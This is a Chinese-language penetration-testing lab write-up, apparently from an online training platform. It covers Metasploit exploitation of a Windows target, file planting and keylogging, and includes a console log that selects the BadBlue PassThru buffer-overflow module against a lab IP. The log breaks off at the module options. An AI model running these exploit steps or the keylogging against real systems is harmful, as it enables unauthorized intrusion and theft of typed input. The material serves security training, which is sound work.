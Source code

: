 # Windows：文件和键盘记录
## 概述
Metasploit 是最流行的渗透测试工具之一。借助迁移到其他进程、键盘记录等功能，它使 Windows 漏洞利用变得特别容易。 

在本实验练习中，您将获得对攻击机和 Windows 目标机的 GUI 访问权限。这使您可以同时体验攻击者和受害者的视角。 

您的任务是使用适当的 Metasploit 模块利用应用程序并完成以​​下目标。 

目标： 

* 获取旗帜。
* 在桌面上创建一个包含文本“You have been Hacked”的文件
* 在 Metasploit 会话中，在目标机器上的记事本中打开该文件。
* 使用键盘记录器记录在受害机器上键入的命令。

指示：

* 你的 Kali 机器有一个 IP 地址为 10.10.XY 的接口运行“ip addr”来知道 X 和 Y 的值。
* 目标机器的 IP 地址在文件“/root/Desktop/target”中提到
* 不要攻击位于 IP 地址 192.V.W1 和 10.10.X.1 的网关

## 解决方案
本实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-1955.pdf

# 复现视频内容
Target IP Address : 10.0.22.53

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > workspace -a Keylogging
[*] Added workspace: Keylogging
[*] Workspace: Keylogging
msf5 > search badblue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


msf5 > use exploit/windows/http/badblue_passthru
msf5 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:
```